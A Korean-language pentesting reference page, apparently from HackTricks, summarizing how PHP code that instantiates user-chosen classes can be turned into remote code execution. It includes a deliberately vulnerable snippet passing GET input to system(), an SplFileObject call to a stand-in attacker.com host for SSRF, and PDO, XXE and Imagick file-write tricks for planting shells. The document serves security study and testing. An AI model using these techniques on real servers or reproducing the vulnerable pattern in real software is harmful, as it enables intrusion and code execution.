 # PHP - RCE 객체 생성을 악용하기: new $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

이것은 기본적으로 [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)의 요약입니다.

## 소개

`new $_GET["a"]($_GET["a"])`와 같은 새로운 임의 객체의 생성은 원격 코드 실행(RCE)으로 이어질 수 있으며, 이는 [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)에 자세히 설명되어 있습니다. 이 문서는 RCE를 달성하기 위한 다양한 전략을 강조합니다.

## 사용자 정의 클래스 또는 자동 로딩을 통한 RCE

구문 `new $a($b)`는 객체를 인스턴스화하는 데 사용되며, 여기서 **`$a`**는 클래스 이름을 나타내고 **`$b`**는 생성자에 전달되는 첫 번째 인수입니다. 이러한 변수는 GET/POST와 같은 사용자 입력에서 가져올 수 있으며, 문자열이나 배열일 수 있거나 JSON에서 다른 유형으로 나타날 수 있습니다.

아래의 코드 스니펫을 고려하십시오:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
이 경우, `$a`를 `App` 또는 `App2`로 설정하고 `$b`를 시스템 명령(예: `uname -a`)으로 설정하면 해당 명령이 실행됩니다.

**자동 로딩 함수**는 그러한 클래스에 직접 접근할 수 없는 경우 악용될 수 있습니다. 이러한 함수는 필요할 때 파일에서 클래스를 자동으로 로드하며, `spl_autoload_register` 또는 `__autoload`를 사용하여 정의됩니다:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
자동 로딩의 동작은 PHP 버전에 따라 다르며, 다양한 RCE 가능성을 제공합니다.

## 내장 클래스에 의한 RCE

사용자 정의 클래스나 자동 로더가 없는 경우, **내장 PHP 클래스**가 RCE에 충분할 수 있습니다. 이러한 클래스의 수는 PHP 버전과 확장에 따라 100에서 200 사이입니다. `get_declared_classes()`를 사용하여 나열할 수 있습니다.

관심 있는 생성자는 반사 API를 통해 식별할 수 있으며, 다음 예제와 링크 [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)에서 확인할 수 있습니다.

**특정 메서드를 통한 RCE에는 다음이 포함됩니다:**

### **SSRF + Phar 역직렬화**

`SplFileObject` 클래스는 생성자를 통해 SSRF를 가능하게 하여, 모든 URL에 연결할 수 있습니다:
```php
new SplFileObject('http://attacker.com/');
```
SSRF는 Phar 프로토콜을 사용하는 PHP 8.0 이전 버전에서 역직렬화 공격으로 이어질 수 있습니다.

### **PDO 악용하기**

PDO 클래스 생성자는 DSN 문자열을 통해 데이터베이스에 연결할 수 있게 하여, 파일 생성 또는 기타 상호작용을 가능하게 합니다:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP 5.3.22 및 5.4.12 버전까지는 `SoapClient` 및 `SimpleXMLElement` 생성자를 통해 XXE 공격에 취약했습니다. 이는 libxml2의 버전에 따라 달라집니다.

## RCE via Imagick Extension

**프로젝트의 의존성** 분석에서 **Imagick**가 새로운 객체를 인스턴스화하여 **명령 실행**에 활용될 수 있음을 발견했습니다. 이는 취약점을 악용할 기회를 제공합니다.

### VID 파서

파일 시스템의 지정된 경로에 콘텐츠를 쓸 수 있는 VID 파서 기능이 확인되었습니다. 이는 웹에서 접근 가능한 디렉토리에 PHP 셸을 배치하여 원격 코드 실행(RCE)을 달성할 수 있습니다.

#### VID Parser + 파일 업로드

PHP는 업로드된 파일을 `/tmp/phpXXXXXX`에 임시로 저장하는 것으로 알려져 있습니다. **msl** 프로토콜을 사용하는 Imagick의 VID 파서는 파일 경로에서 와일드카드를 처리할 수 있어 임시 파일을 선택한 위치로 전송할 수 있습니다. 이 방법은 파일 시스템 내에서 임의 파일 작성을 달성하는 추가적인 접근 방식을 제공합니다.

### PHP 충돌 + 무차별 대입

[**원본 작성물**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)에 설명된 방법은 삭제 전에 서버 충돌을 유발하는 파일을 업로드하는 것입니다. 임시 파일의 이름을 무차별 대입하여 Imagick가 임의의 PHP 코드를 실행할 수 있게 됩니다. 그러나 이 기술은 구버전의 ImageMagick에서만 효과적인 것으로 나타났습니다.

## References

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
